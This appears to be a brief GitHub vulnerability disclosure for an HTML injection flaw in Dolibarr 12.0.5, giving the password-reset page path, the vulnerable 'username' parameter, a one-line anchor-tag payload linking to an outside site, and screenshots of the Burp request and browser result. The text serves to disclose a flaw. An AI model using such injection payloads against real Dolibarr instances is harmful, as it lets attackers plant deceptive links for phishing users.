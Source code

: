 ## Dolibarr 12.0.5 HTML INJECTION 
### Path : http://localhost/user/passwordforgotten.php
### Payload : '<a href="http://www.unsafe-inline.com/">Click Me</a>'
### Paramter : username


## Http Burp Request and Response

![](https://github.com/mustgundogdu/Research/blob/main/Dolibarr_12.0.5-HtmlInjection/dolibarrhtmlInj1.PNG)


## On Browser

![](https://github.com/mustgundogdu/Research/blob/main/Dolibarr_12.0.5-HtmlInjection/dolibarhtmlInj2.PNG)
